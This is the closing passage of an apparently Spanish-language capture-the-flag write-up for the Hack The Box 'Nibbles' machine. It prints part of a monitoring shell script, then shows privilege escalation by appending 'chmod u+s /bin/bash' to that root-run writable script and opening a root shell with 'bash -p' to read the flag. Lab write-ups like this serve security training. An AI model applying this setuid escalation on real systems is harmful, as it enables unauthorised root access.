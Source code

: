 ```bash wrap=false title='monitor.sh'
echo -e '\E[32m'"Ram Usages :" $tecreset
cat /tmp/ramcache | grep -v "Swap"
echo -e '\E[32m'"Swap Usages :" $tecreset
cat /tmp/ramcache | grep -v "Mem"

# Check Disk Usages
df -h| grep 'Filesystem\|/dev/sda*' > /tmp/diskusage
echo -e '\E[32m'"Disk Usages :" $tecreset 
cat /tmp/diskusage

# Check Load Average
loadaverage=$(top -n 1 -b | grep "load average:" | awk '{print $10 $11 $12}')
echo -e '\E[32m'"Load Average :" $tecreset $loadaverage

# Check System Uptime
tecuptime=$(uptime | awk '{print $3,$4}' | cut -f1 -d,)
echo -e '\E[32m'"System Uptime Days/(HH:MM) :" $tecreset $tecuptime

# Unset Variables
unset tecreset os architecture kernelrelease internalip externalip nameserver loadaverage

# Remove Temporary Files
rm /tmp/osrelease /tmp/who /tmp/ramcache /tmp/diskusage
}
fi
shift $(($OPTIND -1))
```

Teniendo permisos de escritura podemos añadir un `chmod u+s /bin/bash` para poder ejecutar **bash** como el usuario dueño, en este caso **root**. Simplemente ejecutamos el script y ya podremos hacer:

```bash wrap=false
nibbler@Nibbles:/home/nibbler/personal/stuff$ bash -p
bash-4.3# whoami
root
bash-4.3# cat /root/root.txt 
cc508a6206bfa32a1...
```

[Pwned!](https://labs.hackthebox.com/achievement/machine/1992274/121)

---